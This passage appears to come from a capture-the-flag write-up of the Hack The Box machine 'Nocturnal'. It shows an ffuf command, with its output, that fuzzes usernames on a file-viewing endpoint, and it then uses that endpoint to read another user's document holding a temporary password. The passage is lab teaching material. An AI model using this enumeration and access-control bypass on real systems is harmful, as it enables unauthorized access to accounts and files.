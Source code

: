We're getting redirected to login which means we need our cookie so let's grab that and go back to fuzzing usernames.
```bash
ffuf -u "http://nocturnal.htb/view.php?username=FUZZ&file=test.pdf" -w `fzf-wordlists` -H "Cookie: PHPSESSID=lh5k786mc9pqeoj5e4fivsjm7o" -fs 2985 -mc all

        / ___\  / ___\           / ___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://nocturnal.htb/view.php?username=FUZZ&file=test.pdf
 :: Wordlist         : FUZZ: /opt/lists/seclists/Usernames/Names/names.txt
 :: Header           : Cookie: PHPSESSID=lh5k786mc9pqeoj5e4fivsjm7o
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response size: 2985
________________________________________________

admin                   [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 301ms]
amanda                  [Status: 200, Size: 3113, Words: 1175, Lines: 129, Duration: 297ms]
tobias                  [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 297ms]
```
# User
We get `amanda` so let's visit http://nocturnal.htb/view.php?username=amanda&file=test.pdf
![nocturnal-1744501088787.png](/assets/img/img_nocturnal/nocturnal-1744501088787.png)
Let's download the file and view the contents.
> Dear Amanda,
> 
> Nocturnal has set the following temporary password for you: arHkG7HAI68X8s1J. This password has been set for all our services, so it is essential that you change it on your first login to ensure the security of your account and our infrastructure.
> 